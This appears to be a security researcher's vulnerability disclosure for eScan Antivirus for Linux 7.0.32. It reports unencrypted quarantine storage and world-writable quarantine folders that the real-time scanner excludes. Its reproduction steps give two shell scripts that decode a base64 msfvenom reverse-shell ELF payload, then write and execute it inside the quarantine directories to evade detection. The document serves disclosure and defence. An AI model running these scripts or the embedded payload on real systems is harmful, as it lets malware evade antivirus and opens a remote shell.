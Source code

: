 # Info

- **Product**: EScan Antivirus for Linux
- **Version**: 7.0.32
- **Environment**: Ubuntu 24.04.1
- **Researcher**: Nong Hoang Tu <tunh19@fpt.com>

*Note*: Escan was installed using Debian installer (`.deb` file). Different installation method can have different default settings.

# Quarantined malicious files are unencrypted
## Desciption and impact
`rtscanner` is a real-time protection service of Escan Antivirus for Linux. WHen a malicious file is detected, this service simply moves the file to quarantine folder without any encyption. This folder won't be monitored by real-time protection

## Steps to reprocedure
1. Create test file. Real time scanner will detect as malware

![image](https://github.com/user-attachments/assets/625a4271-6b39-497d-b436-77626dfae025)

2. Check new quarantined file. The file has the same content as created file.
![image](https://github.com/user-attachments/assets/12a7102f-414d-4c7f-8d70-c0a15a3d34f3)


# Incorect default permissions leads to malicious code evasion
## Description and impact
By default, quarantine folders of Escan Antivirus has permission 777. Any unprivileged user can change content inside these folders. A malware created in these folders will evade detection since reat-time scanner exludes these folders.

## Root cause
1. Incorrect default permissions: quaranties folders has permission 777. Any unprivileged users can modify data.

![image](https://github.com/user-attachments/assets/955c9c3c-4e19-43d0-aca3-8bdcf943dbe5)

2. By default, folder `/var/Microworld/` is excluded as a hardcoded part in `rtscanner`. Any malicious code executed in sub-folders of this path can evade real-time protection.

![image](https://github.com/user-attachments/assets/5ca6adbc-9d95-4091-8263-33ecc852def8)

## Step to reprocedure
Threat actor can select either any of these methods to drop malicious file, execute and evade reat-time detection system:
1. Dropper writes malware to quarantine folders, add execute permission if required, then execute malicious file inside quarantine folder. Exploit code example:

```
# msfvenom -f elf -o meter -p linux/x64/shell/reverse_tcp lhost=127.0.0.1 lport=8888
data="f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgAiuH8AAAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmomWg8FSIXAeO3/5g=="
path="/var/MicroWorld/var/quarantine/escan/malfile"

# Create malicious file
echo $data | base64 -d > $path
chmod 777 $path
$path
```

2. Dropper writes malware to any folder, wait antivirus moves malicious file to quarantine folder, add execute permission if required, then execute malicious file inside quarantine folder.

```
filename="hehehhaha"

# msfvenom -f elf -o meter -p linux/x64/shell/reverse_tcp lhost=127.0.0.1 lport=8888
data="f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgAiuH8AAAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmomWg8FSIXAeO3/5g=="
path="/var/MicroWorld/var/rtquarantine/"

# Create malicious file
echo $data | base64 -d > $filename

# Wait AV

sleep 3

# Try executing from quarantine
# First, get the last file was created inside quarantine folder
last_created_file="$(ls -t /var/MicroWorld/var/rtquarantine/ | head -n1)"
mal_file="${path}${last_created_file}"

# Change permission of quarantined file
chmod 777 ${mal_file}

# Execute last created file
${mal_file}
```
